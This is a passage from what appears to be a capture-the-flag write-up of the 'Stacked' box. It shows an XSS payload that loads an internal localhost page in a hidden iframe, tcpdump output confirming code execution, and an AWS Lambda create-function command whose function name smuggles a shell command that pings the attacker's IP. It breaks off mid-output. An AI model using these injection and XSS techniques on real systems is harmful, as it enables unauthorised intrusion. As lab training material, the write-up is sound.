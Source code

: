 ![image-20210825145440757](https://0xdfimages.gitlab.io/img/image-20210825145440757.png)

There’s also ICMP packets at `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni docker0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    14:55:23.581855 IP 172.17.0.2 > 172.17.0.1: ICMP echo request, id 731, seq 1, length 64
    14:55:23.581911 IP 172.17.0.1 > 172.17.0.2: ICMP echo reply, id 731, seq 1, length 64
    

This is RCE, and good because it confirms the vulnerability works, even on the
latest image. But it’s bad because it shows why it’s failing remotely - the
page has to fully load, and my XSS JavaScript is only requesting the page
source, so unlike a browser, it doesn’t then try to load and execute all the
JavaScript on that page.

#### IFrame

[This post](https://stackoverflow.com/questions/19328143/xmlhttprequest-to-
fetch-dom-with-dynamic-content) on StackOverflow asks about how to use an
`XMLHttpRequest` to fetch the DOM based on dynamic content. I’ll use that to
craft a payload that will load the page into an iframe, and wait for it to
load.

    
    
    var iframe = document.createElement('iframe');    
    iframe.src = 'http://127.0.0.1:8080';    
    iframe.onload = function() {    
      setTimeout(function() {    
        iframe.parentNode.removeChild(iframe);    
        }, 5000);    
    };    
    iframe.sandbox = 'allow-scripts';    
    iframe.style.height = '1px';    
    iframe.style.width = '1px';    
    iframe.style.position = 'fixed';    
    iframe.style.top = '-9px';    
    iframe.style.left = '-9px';
    
    document.body.appendChild(iframe);    
    

I’ll send an XSS to fetch that, and submit a new lambda function:

    
    
    oxdf@hacky$ aws lambda create-function --function-name 'ex; ping -c 1 10.10.14.6' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --handler index.handler --runtime nodejs12.x
    {
        "FunctionName": "ex; ping -c 1 10.10.14.6",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex; ping -c 1 10.10.14.6",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T19:04:26.602+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "2e71059f-9d2f-4679-a2b6-f0d4469a5147",